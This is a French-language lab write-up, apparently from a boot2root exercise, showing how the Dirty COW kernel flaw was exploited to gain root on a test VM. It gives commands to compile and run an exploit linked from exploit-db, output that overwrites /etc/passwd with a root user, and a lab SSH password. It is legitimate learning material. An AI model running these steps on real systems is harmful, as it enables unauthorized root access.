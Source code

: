 # Dirty COW
## Introduction
Dirty COW est le nom donné faille de sécurité du noyau Linux. Elle va nous permettre une élévation de privilèges avec l'exécution d'un simple programme C.

## Compatibilité
Cette faille n'est exploitable qu'avec une version du noyau comprise entre 2.6.22 et 3.9. On vérifie notre version du noyau :
```
> uname -r
3.2.0-91-generic-pae
```
Notre VM est compatible avec cette faille.

## Récupération et exécution du code
La faille étant assez connue, il est possible de récuperer facilement le code à exécuter. Nous avons récupéré [celui ci](https://www.exploit-db.com/exploits/40839).

On se connecte en ssh à la VM. Tous les utilisateurs dans le sujets sont compatibles avec la faille.
```
> ssh -p 22 zaz@192.168.99.102
646da671ca01bb5d84dbb5fb2238dc8e
```
On créer un fichier `exploit.c` qui contient le code récupéré préalablement. On compile avec `gcc`. Certains flags sont necessaires :
```
gcc exploit.c -lpthread -lcrypt
```
En exécutant le `a.out` :
```
> ./a/out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiGIOrsN6mdSc:0:0:pwned:/root:/bin/bash

mmap: b7fda000
```

Le programme nous demande un mot de passe, on saisit le mot de passe de notre choix comme `125boot2root`

Nous pouvons maintenant lancer la commande `su`
et rentrer le mot de passe préalablement choisis.


Un `whoami` nous affichera l'utilisateur `firefart`. Son `id` est bien `0`, nous somme donc passé `root`.
```
> whoami
firefart
> id
uid=0(firefart) gid=0(root) groups=0(root)
```

## Mais qu'est qu'il se passe derrière ? 

Lorsqu'on fait un `cat /etc/passwd`, on obtient plusieurs lignes avec les différents users. Par exemple lmezard

`lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash` 

`1001` est l'uid de `Lmezard`

Le `x` indique que son mot de passe est stocké dans un fichier.
Lorsqu'on éxécute le script, le `x` va être remplacé par un hash du mot de passe saisis ! 
